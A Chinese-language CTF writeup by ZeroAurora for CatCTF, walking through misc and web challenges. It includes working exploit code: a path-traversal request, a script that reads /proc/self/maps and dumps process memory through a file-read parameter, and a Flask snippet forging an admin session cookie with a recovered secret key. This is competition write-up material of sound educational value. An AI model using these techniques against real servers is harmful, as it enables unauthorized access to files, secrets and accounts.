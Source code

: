 # CatCTF Writeup by ZeroAurora

## Misc

### CatFlag

签到题，直接 cat flag 就行。不过至今没搞清楚原理是什么（

### Nepnep 祝你新年快乐啦！

最后一帧，任意非编软件或者好一点的播放器就能直接查看。

### CatchCat

把下载得到的 txt 丢到在线 GPS 查看网站就行。

### MeowMeow

Hex 编辑器打开，跳转到图片末尾，此时编辑器展现的字符排列正好可以组成字符（类似 asciiart），看图说话就行。

### catnim

pwntools 交互题。一开始以为是 Nim 语言的事情（？），不过很快就找到了原来 nim 指的是 [尼姆游戏](https://zh.wikipedia.org/wiki/%E5%B0%BC%E5%A7%86%E6%B8%B8%E6%88%8F)。

参照 Wikipedia 提供的解决方法，编写 exp 如下：

```python
from pwn import *

from functools import reduce


r = remote("223.112.5.156", 51682)

print(r.recvlines(7)) # intro
r.sendline(b"n")

i = 0
while True:
    where = 0
    count = 0

    recv = r.recvline(keepends=False) # now pile: ...
    print(recv)
    now_pile = recv.decode().lstrip("Now pile: ").split()

    # first hand: calculate nimsum
    nimsum = int(reduce(lambda x, y: int(x) ^ int(y), now_pile)) # 写wp的时候发现最外圈这个int好像没啥意义，不过不删了
    print(f"nimsum:{nimsum}")
    for stack in now_pile:
        stack_height = int(stack)
        if (stack_height ^ nimsum) < stack_height:
            count = stack_height - (stack_height ^ nimsum)
            break
        where += 1

    print(f"where: {where}, count: {count}")
    
    print(r.recvuntil(b":")) # where:
    r.sendline(str(where).encode())
    print(r.recvuntil(b":")) # count:
    r.sendline(str(count).encode())

    print(r.recvline()) # AI fetch...
    print(r.recvline()) # xor:xxx
    print(r.recvline()) # now pile: ...
    i += 1
```

直接跑到 EOF 为止。

## Web

### ez_js

签到题，直接看 `/js/game.js`，L46 有 flag 路径 `/g3t_fl4g`，直接访问即可。

### ezbypass

打开环境，在 devtools 随便翻翻，找到了“华夏 ERP”字样，遂以“华夏 ERP 绕过”为关键词搜索，找到 [这篇文章](http://www.hackdig.com/05/hack-367602.htm)。

于是用环境中的某个 css/js 为起点，一路 .. 回根目录，拿到 flag.html。

exp 忘记存了……悲，随便编一个文件名得了。

```
GET /js/jquery/jquery.xxx.js/../../../flag.html
Host: 127.0.0.1
(...)
```

### catcat

套着 Web 皮的 Misc（？），跨年熬夜做两小时，后遗症是头痛至今（

同样是没有当场写 wp（好在存了 exp），比赛结束又不给环境了，于是下面也是基于回忆的答案，仅供参考求轻喷（

进环境，点进一个 info 页面，发现 URL 参数里面有 file 字段，猜测是文件系统访问；同时注意到页面返回的是 bytestring，说明这道题肯定要和二进制打交道了。

不管怎么说先随便来个逝世：

```
http://223.112.5.156:63365/info?file=./../../../../bin/ls
```

成功返回了 ls 的 bytestring。据此可确信是文件系统访问。随意摸索可以找到 `./../app.py` 和 `./../cat.py`。

阅读 app.py，可知程序将 flag 读入内存之后就已经删除。可想两种方法：dump disk 和 dump memory。前者因为文件太大，且容器不提供磁盘访问，故排除。

考虑后者。Linux 的文件目录结构里有一个特殊的文件夹 `/proc`，是实际仅对进程可见的虚拟文件系统，包含关于进程的各种信息。其中有没有可能就有程序的内存文件呢？

一查还真有：`/proc/self/mem`，提供了对进程本身内存的访问。但是直接访问这个文件会出 I/O 错误，怎么办？再看看，`/proc/self/maps` 提供了这个文件中每一块内存的地址和对应的进程。

回过头来看题目，天助我也，参数中的 start 和 end 字段正好能够达到读取部分文件的目的。于是抄了一段 [StackOverflow](https://unix.stackexchange.com/a/6302)，exp 如下：

```python
import re
import requests
from bs4 import BeautifulSoup

maps_html = BeautifulSoup(requests.get("http://223.112.5.156:63365/info?file=./../../../proc/self/maps").text)
maps: str = eval(maps_html.p.string).decode()

output_file = open("self.dump", 'wb')
i = 1
for line in maps.split("\n"):  # for each mapped region
    print(i)
    i+=1
    m = re.match(r'([0-9A-Fa-f]+)-([0-9A-Fa-f]+) ([-r])', line)
    if m.group(3) == 'r':  # if this is a readable region
        start = int(m.group(1), 16)
        end = int(m.group(2), 16)
        mem_html = BeautifulSoup(requests.get(f"http://223.112.5.156:63365/info?file=./../../../proc/self/mem&start={start}&end={end}").text)
        chunk: bytes = eval(mem_html.p.string)
        output_file.write(chunk)  # dump contents to output
output_file.close()
```

之后有两种解法：一种是利用 app.py 给的 `*abcdefgh` 进行一个搜索，得到 secret key，然后手动签一个 session cookie：

```python
from flask import Flask, session

app = Flask(__name__)

app.secret_key = b"596287024f0c4ac9b2c726da7202d8df*abcdefgh"

@app.get("/")
def main():
    session["admin"] = 1
    return "" # then get cookie from browser
```

另外一种解法是直接找 flag。但是我想破了头都想不出为什么 flag 是 `catctf{xxx}` 而不是之前遇见的 `CatCTF{xxx}` 和比赛规则中的 `flag{xxx}`，格式不统一属实气人（恼

## 结语

以上就是我做出来的全部题目，不多，总共耗时 7 小时左右，但整体过程还算愉快~本 wp 没有图片，还有很多处按照记忆编写的，希望能被接受吧（悲

锤三个地方：一个是上文提到的 Flag 格式不统一；一个是比赛规则只写获奖者要写 wp，但是因为我没加群所以刚刚才知道每个人都要写 wp，没有边做题边写 wp 习惯的我“玛恩纳摸澄闪——输麻了“；三是我不玩王者荣耀啊啊啊（全恼）！

总之感谢各位师傅们为了可爱的猫猫辛苦出题运维做题！新年快乐！
